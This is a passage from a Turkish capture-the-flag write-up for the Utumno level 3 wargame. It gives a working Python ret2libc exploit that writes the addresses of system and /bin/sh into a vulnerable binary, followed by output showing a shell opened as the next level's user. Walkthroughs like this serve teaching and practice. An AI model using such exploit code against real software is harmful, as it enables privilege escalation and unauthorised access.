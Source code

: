 Son olarak'ta gdb'de _ değerini set ederken python3'ü çalıştıracağımızı bundan dolayı "_=/usr/bin/python3" yapmamız gerektiğini unutmuyoruz.

```py
import subprocess
import os

esp = <ESP_DEGERİ>

# f7e4c850: system'in adresi
# 41414141: system'in döneceği önemsiz adres
# f7f6ecc8: /bin/sh'ın adresi
lol = ['50', 'c8', 'e4', 'f7', '41', '41', '41', '41', 'c8', 'ec', 'f6', 'f7']

output = ''

# 12 karakter yazacağımız için 12 kere dönüyoruz
for i in range(12):
   # 0 dan 255'e olası tüm karakterleri deniyoruz
    for a in range(0, 255):
        if (esp - 4 + (a ^ (3*i)) - 0x24) == esp + i:
            output += '\\x' + str(hex(a))[2:] + '\\x' + lol[i]
            break

# Sondaki A'ları ise programın bitmesi için veriyoruz
os.system('(echo `python -c "print \'' + output + '\'"`AAAAAAAAAAAAAAAAAAAAAAAAAAA; cat) | /utumno/utumno3')
```

```
utumno3@utumno:/tmp/tmp.B8NhRXqYiK$ python3 exploit.py
whoami
utumno4
```